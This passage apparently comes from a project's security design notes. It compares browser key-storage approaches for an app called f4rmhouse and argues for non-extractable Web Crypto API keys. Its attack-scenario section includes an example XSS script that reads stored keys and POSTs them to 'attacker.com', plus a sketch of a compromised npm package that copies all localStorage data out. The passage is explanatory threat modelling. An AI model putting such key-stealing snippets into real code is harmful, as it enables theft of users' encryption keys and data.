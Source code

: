 **Benefits:**
- ✅ No storage whatsoever
- ✅ Keys change over time
- ✅ Context-dependent security
- ✅ Zero persistent attack surface

## Security Comparison

| Approach | XSS Risk | Persistence | Extractable | Forensics | Security Level |
|----------|----------|-------------|-------------|-----------|----------------|
| localStorage | ❌ High | ❌ Forever | ❌ Yes | ❌ Permanent | 🔴 Low |
| sessionStorage | ⚠️ Medium | ✅ Session | ❌ Yes | ⚠️ Temporary | 🟡 Medium |
| Auth-derived | ✅ Low | ✅ None | ⚠️ Derivable | ✅ None | 🟢 High |
| Web Crypto API | ✅ Very Low | ✅ Session | ✅ No | ✅ Secure | 🟢 Very High |
| Dynamic | ✅ Very Low | ✅ None | ⚠️ Derivable | ✅ None | 🟢 Very High |

## Real-World Attack Scenarios

### 🎯 **Scenario 1: XSS Attack**
```javascript
// Malicious script injected via compromised dependency
(function() {
  const keys = {
    localStorage: localStorage.getItem('f4rmhouse-client-key'),
    sessionStorage: sessionStorage.getItem('f4rmhouse-session-key'),
    // Web Crypto API keys cannot be extracted!
  };
  
  // Send stolen keys to attacker
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify(keys)
  });
})();
```

**Impact:**
- localStorage: ❌ Key stolen, all encrypted data compromised
- sessionStorage: ⚠️ Session key stolen, current session compromised
- Web Crypto API: ✅ Keys cannot be extracted, attack fails

### 🎯 **Scenario 2: Supply Chain Attack**
```javascript
// Compromised npm package
const maliciousPackage = {
  init() {
    // Steal all localStorage data
    const allData = { ...localStorage };
    this.exfiltrate(allData);
  }
};
```
